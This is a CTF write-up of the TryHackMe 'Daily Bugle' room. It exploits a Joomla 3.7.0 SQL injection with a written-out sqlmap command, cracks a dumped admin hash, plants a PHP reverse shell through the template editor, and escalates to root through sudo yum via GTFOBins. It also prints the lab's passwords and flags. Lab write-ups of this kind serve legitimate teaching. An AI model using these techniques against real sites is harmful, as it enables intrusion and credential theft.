 ```yaml
---
title: "Daily Bugle - TryHackMe"
author: Ludovic COULON
date: 2021-01-28
hero: ./images/hero.png
excerpt: "Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum."
---
```


[TryHackMe | Daily Bugle](https://tryhackme.com/room/dailybugle)

![https://i.imgur.com/4xkRRJC.png](https://i.imgur.com/4xkRRJC.png)

Deploy the machine - it may take up to 2 minutes to configure (Hard 🥴)

---

### Setup

```bash
Desktop/TryHackMe/daily_bugle » nmap -A -vv 10.10.85.30 -oN nmap_result
```

```bash
22/tcp   open  ssh     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX

80/tcp   open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-generator: Joomla! - Open Source Content Management
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home

3306/tcp open  mysql   syn-ack MariaDB (unauthorized)
```

### Access the web server, who robbed the bank?

```bash
Spiderman
```

![./images/Untitled.png](./images/Untitled.png)

---

![https://i.imgur.com/fREnB0x.png](https://i.imgur.com/fREnB0x.png)

Hack into the machine and obtain the root user's credentials.

### What is the Joomla version?

```bash
# As you can see on the nmap report the blog is using joomla, let's use some tools to enumerate the version and see if there is something interesting..
# https://github.com/Tuhinshubhra/CMSeeK
[✔] CMS URL: https://joomla.org
[✔] Joomla Version: 3.7.0
```

![./images/Untitled1.png](./images/Untitled1.png)

Nice, now we have the version let's see if there is an exploit in this version on exploitdb for example.

![./images/Untitled2.png](./images/Untitled2.png)

Yep ! There is a SQLi available ! 🙌

![./images/Untitled3.png](./images/Untitled3.png)

The exploit tells us to basically use sqlmap, well.. let's do that I guess.

```bash
# sqlmap command
sqlmap -u "http://10.10.85.30/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump
```

If you want, you can use this exploit written with python 

[NinjaJc01/joomblah-3](https://github.com/NinjaJc01/joomblah-3)

![./images/Untitled4.png](./images/Untitled4.png)

```bash

[$] Found user : 'Super User', 'jonah', 'jonah@tryhackme.com', 
Hashed password : '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
```

Nice this is exactly what we wanted, let's crack the password.

### What is Jonah's cracked password?

```bash
# Let's crack the hash with hashcat / john
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
```

![./images/Untitled5.png](./images/Untitled5.png)

After ~40-45 minutes the password has been cracked : `spiderman123`

Now that we have the administrator's password let's upload some reverse shell 👀

![./images/Untitled6.png](./images/Untitled6.png)

Now that we successfully connected let's upload something.

![./images/Untitled7.png](./images/Untitled7.png)

Go to the `Extensions/Templates/Templates` tab.

And create a php page

![./images/Untitled8.png](./images/Untitled8.png)

##### Bonus, you can use my own extension to generate php shell and many more things !

[LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)

![./images/Untitled9.png](./images/Untitled9.png)

![./images/Untitled10.png](./images/Untitled10.png)

Now let's juste save and close the page to see the magic happen 😎

![./images/Untitled11.png](./images/Untitled11.png)

And voilà ! You have successfully uploaded a reverse shell !

Now we can access the configuration of joomla `/var/www/html/configuration.php`

![./images/Untitled12.png](./images/Untitled12.png)

```bash
Password : 'nv5uz9r3ZEDzVjNu';
```

### What is the user flag?

![./images/Untitled13.png](./images/Untitled13.png)

To see what is the name of the user I cd into the `/home` directory to list all of the available users, and the rest is pretty straightforward, just SSH into the account with the password that you have cracked earlier.

```bash
# First flag 
27a260fe3cba712cfdedb1c86d80442e
```

### What is the root flag?

![./images/Untitled14.png](./images/Untitled14.png)

Payload → gtfobins

[yum | GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo)

```bash
# Root flag
# cat /root/root.txt
eec3d53292b1821868266858d7fa6f79
```

